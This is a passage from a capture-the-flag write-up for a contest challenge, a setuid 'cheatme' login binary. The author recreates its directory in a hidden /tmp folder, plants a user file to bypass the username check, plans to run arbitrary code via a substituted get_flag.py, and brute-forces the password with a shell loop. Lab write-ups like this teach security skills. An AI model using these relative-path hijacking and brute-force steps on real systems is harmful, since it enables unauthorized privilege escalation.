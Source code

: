 Ok let's plan an attack:
1. We have to replicate the original environment because there are many relevant files that are either loaded and executed with relative paths.
2. We can bypass the username check by adding our own username in the `user.txt` file in the replicated environment.
3. We can bypass the password by providing the string `ContestChallenge-XXXXX` where XXXXX is a number.
4. We can run any command by creating `get_flag.py` with arbitrary content. Or we can run the original file if we want.

Let's do this. First, let's see the original environment:
```bash
cheatme@pwnssh14-01-contest13:~/problem/login$ ls -l
total 28
-r-s--sr-x 1 authenticated authenticated 9728 May 26 18:32 cheatme
-r-------- 1 authenticated authenticated   43 May 24 23:58 flag.txt
-r-x------ 1 authenticated authenticated 1728 May 24 23:58 get_flag.py
-r--r--r-- 1 authenticated cheatme        490 May 24 23:58 head
-r-------- 1 authenticated authenticated   17 May 24 23:58 user.txt

```
`cheatme` is setuid `authenticated:authenticated`. All the other files are either self-explanatory or have been described before.

Let's re-create the environment:
```bash
cheatme@pwnssh14-01-contest13:~$ mkdir /tmp/...
cheatme@pwnssh14-01-contest13:~$ cd /tmp/...
cheatme@pwnssh14-01-contest13:/tmp/...$ mkdir -p problem/login
cheatme@pwnssh14-01-contest13:/tmp/...$ cd problem/login/
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ echo admin>user.txt
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ printf "admin\nContestChallenge-XXXXX\n" | ~/problem/login/cheatme 
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
```

Ok the user bypass works. The password is of course wrong, as we have to find the right numbers that validate all the checks. To do this we can just bruteforce the number:
```bash
cheatme@pwnssh14-01-contest13:/tmp/.../problem/login$ for a in $(seq 10000 99999); do echo $a; printf "admin\nContestChallenge-$a\n" | ~/problem/login/cheatme; done
10000
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10001
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10002
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10003
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10004
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
|	Enter Password :  |	Password incorrect!. Try again.
10005
|	Enter user     :     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
```
